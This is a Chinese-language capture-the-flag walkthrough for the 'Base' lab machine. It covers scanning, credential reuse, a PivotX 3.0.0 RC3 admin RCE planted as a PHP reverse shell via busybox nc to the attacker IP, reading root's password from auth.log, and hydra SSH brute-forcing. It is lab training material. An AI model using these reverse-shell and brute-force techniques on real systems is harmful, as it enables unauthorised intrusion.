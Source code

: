 
### 1. 基本信息

```
靶机链接：
https://maze-sec.com/library
https://hackmyvm.eu/machines/machine.php?vm=
```

```shell
难度：⭐️
知识点：信息收集，目录扫描，`sqlite3`读数据库，`PivotX 3.0.0 RC3 RCE`,检索系统日志
```

### 2. 信息收集

##### Nmap

```shell
└─# arp-scan -l | grep PCS
192.168.31.72   08:00:27:77:12:c7       PCS Systemtechnik GmbH
└─# IP=192.168.31.72
└─# nmap -sV -sC -A $IP -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 19:16 CST
Nmap scan report for Base (192.168.31.72)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-generator: PivotX
|_http-server-header: Apache/2.4.62 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 1 disallowed entry
|_/pivotx/
|_http-title:         PivotX Powered
MAC Address: 08:00:27:77:12:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

开放了`22、80`端口,先常规扫一下目录

```shell
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://$IP -x.txt,.php,.html,.bak
└─# dirsearch -u http://$IP  -x 403 -e txt,php,html
[19:17:35] Starting:
[19:17:46] 301 -  315B  - /images  ->  http://192.168.31.72/images/
[19:17:46] 200 -  175B  - /images/
[19:17:47] 200 -    5KB - /LICENSE.txt
[19:17:52] 200 -  311B  - /README.md
[19:17:52] 200 -   33B  - /robots.txt
[19:17:55] 200 -  487B  - /UPGRADE.txt
[19:17:56] 200 -   12KB - /users.db
```

访问`80`端口没啥有用信息，访问 `robots.txt` 提示`pivotx`目录，访问目录下有一个登陆页面，测试root、admin等弱密码不行,做到后面发现`var/www/html/creds.txt`给了账号信息

```shell
http://192.168.31.72/pivotx/index.php

hungry@Base:/tmp$ cat  /var/www/html/creds.txt
guest:guest
admin:YWRtaW*=
```

扫描到`users.db`数据库，读取后存在用户`hungry/aHVuZ3J5`

```shell
└─# file users.db
users.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 2, database pages 3, cookie 0x1, schema 4, UTF-8, version-valid-for 2
└─# sqlite3 users.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> SELECT * FROM users;
id  username  password
--  --------  --------
1   hungry    aHVuZ3J5
```

尝试账号`hungry/aHVuZ3J5`网页登陆不对，去试试`ssh`登陆

![image-20250723193402371](https://gitee.com/shui666/images/raw/master/images/image-20250723193402371.png)

### 3.获得`hungry`权限

直接拿`users.db`数据库中用户`hungry/aHVuZ3J5`去`ssh`登陆靶机成功

```
└─# ssh hungry@$IP
hungry@Base:~$ id
uid=1000(hungry) gid=1000(hungry) groups=1000(hungry)
```

写个公钥方便登陆

```
#配置免密登陆
mkdir .ssh
cd .ssh
echo '<公钥>'>>authorized_keys
```



##### 拿到`user.txt`

```shell
hungry@Base:~$ cd
hungry@Base:~$ ls
user.txt
hungry@Base:~$ cat user.txt
flag{user-051a0db9a92e4dacc70212da32fd0638}
```



### 4.获得`www-data`权限

没有`sudo`可以执行，传个脚本扫一下

```shell
kali└─# python3 -m http.server 80

hungry@Base:/tmp$ wget  192.168.31.126/linpeas.sh
hungry@Base:/tmp$ chmod +x linpeas.sh
hungry@Base:/tmp$ bash linpeas.sh
```

发现`ssh`的配置文件中允许`root`登陆,尝试直接用`top`字典`ssh`爆破`root`密码失败

```
hungry@Base:~$ cat /etc/ssh/sshd_config| grep -i  root
PermitRootLogin yes
# the setting of "PermitRootLogin without-password".
#ChrootDirectory none
```

然后注意到已知账户的密码都是`base64`

```
hungry->aHVuZ3J5
guest:guest
admin:YWRtaW*=
```

群主提示了`www-data`有用，回到登陆页面`/pivotx/index.php`，使用`admin/YWRtaW4=`成功登陆后台

![image-20250723210753096](https://gitee.com/shui666/images/raw/master/images/image-20250723210753096.png)

搜索发现`PivotX`是`PivotX`开源的一个应用程序。` PivotX 3.0.0 RC3`版本存在安全漏洞，该漏洞源于页面创建过程中，容易受到存储型跨站脚本攻击。

##### `CVE-2025-52367`(PivotX 3.0.0 RC3 RCE)

直接用`https://www.exploit-db.com/`现成的方案PivotX 3.0.0 RC3 - Remote Code Execution (RCE)

```shell
#PivotX 3.0.0 RC3 - Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/52361
```

运行即可获得`www-data`权限

```shell
#使用admin登陆后获取shell方法
8. Navigate as admin, to http://IP/PivotX/pivotx/index.php?page=homeexplore, where you can edit index.php file
9. Edit index.php file to any php file you want to gain RCE on the target, could be with reverse shell or any other method.
10. Visit http://IP/PivotX/index.php and you should get a reverse shell :)
##执行结果
#访问homeexplore目标页面
http://192.168.31.70/pivotx/index.php?page=homeexplore
#编辑index.php内容为反弹shell参数（靶机无nc用busybox）
<?php exec("busybox nc 192.168.31.126 1234 -e /bin/bash "); ?>
#获得反弹shell
kali└─# curl http://192.168.31.70/index.php
kali└─# nc -lvp 1234
listening on [any] 1234 ...
id
connect to [192.168.31.126] from Base [192.168.31.70] 46300

www-data@Base:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
```

### 5.获得`root`权限

##### 检索系统日志

注意到`www-data`用户的属组有`adm`，`adm`属组默认有权访问 `/var/log/`下的系统日志（如 `auth.log`、`syslog`），去日志中找找敏感信息，在`auth.log`中发现`root`密码

```shell
www-data@Base:/tmp$ cat /var/log/auth.log | grep "password"
Jul 19 23:59:05 moban passwd[528]: pam_unix(passwd:chauthtok): password changed
for root
Jul 19 23:58:27 moban sudo[381]: root : password changed to 'dG9kZA==
Jul 20 00:05:17 moban sshd[548]: Accepted password for root from 192.168.3.94 po
rt 60280 ssh2
Jul 20 00:10:50 moban passwd[831]: pam_unix(passwd:chauthtok): password changed
for hungry
Jul 20 00:30:55 moban passwd[1026]: pam_unix(passwd:chauthtok): password changed
 for hungry
Jul 20 00:31:43 moban sshd[1031]: Accepted password for root from 192.168.3.94 p
ort 36218 ssh2
Jul 20 00:32:02 moban passwd[1044]: pam_unix(passwd:chauthtok): password changed
 for root
Jul 20 00:44:17 Base sshd[433]: Accepted password for root from 192.168.3.94 por
t 47964 ssh2
Jul 20 00:52:12 Base sshd[433]: Accepted password for root from 192.168.3.94 por
t 55854 ssh2
Jul 23 10:23:06 Base sshd[780]: Accepted password for hungry from 192.168.31.126
 port 58554 ssh2
Jul 23 10:36:12 Base sudo: pam_unix(sudo:auth): auth could not identify password
 for [www-data]
Jul 23 10:40:21 Base sudo: pam_unix(sudo:auth): auth could not identify password
 for [hungry]
```

获得`root`密码为`dG9kZA==`，解码是`todd`果然很切题。

##### 拿到`root.txt`

```shell
www-data@Base:/tmp$ su
Password:#dG9kZA==
 ____
| __ )  __ _ ___  ___
|  _ \ / _` / __|/ _ \
| |_) | (_| \__ \  __/
|____/ \__,_|___/\___|

root@Base:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Base:/tmp# ls
root@Base:/tmp# cat /root/root.txt
flag{root}
```

##### 后记

既然靶机的密码都是`base64`格式，也直接构造`base64`字典去爆破`root`密码

```shell
#夜佬的脚本
while IFS= read -r line; do
    echo -n "$line" | base64
done < /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt > 10000base.txt
└─# hydra -l rootin -P 10000base.txt ssh://$IP  -V -I -u -f -e nsr
```

